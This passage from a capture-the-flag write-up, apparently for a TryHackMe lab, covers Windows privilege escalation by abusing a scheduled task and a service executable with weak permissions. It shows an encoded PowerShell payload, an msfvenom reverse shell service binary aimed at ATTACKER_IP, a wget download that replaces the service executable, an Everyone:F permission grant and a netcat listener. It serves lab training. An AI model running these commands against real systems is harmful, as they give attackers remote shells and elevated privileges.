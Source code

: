 Create a new file which will be properly encoded

```bash
echo 'powershell -nop -exec bypass -enc CgAkAGMA...' > schtask.bat
```

![](../../attachment/536f612c77210554a95a88a5ec02327b.png)

```bash
copy \\10.11.19.145\s\schtask.bat .
schtasks /run /tn vulntask
```

```bash
┌──(kali㉿kali)-[~/scripts]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.196.63] 54718

ps> type $env:userprofile\Desktop\flag.txt
THM{TASK_COMPLETED}
```

> THM{TASK_COMPLETED}

## Abusing Service Misconfigurations
---

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

```bash
# Check perms
C:\> icacls C:\PROGRA~2\SYSTEM~1\WService.exe

# Generate a revshell service
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1111 -f exe-service -o shell-svc.exe

python3 -m http.server 80

C:\> cd C:\PROGRA~2\SYSTEM~1\
C:\PROGRA~2\SYSTEM~1\> move WService.exe WService.exe~
C:\PROGRA~2\SYSTEM~1\> wget http://ATTACKER_IP/shell-svc.exe -O .\WService.exe

# Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well
C:\> icacls WService.exe /grant Everyone:F

rlwrap -r -f . nc -nlvp 1111

# Restart service
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
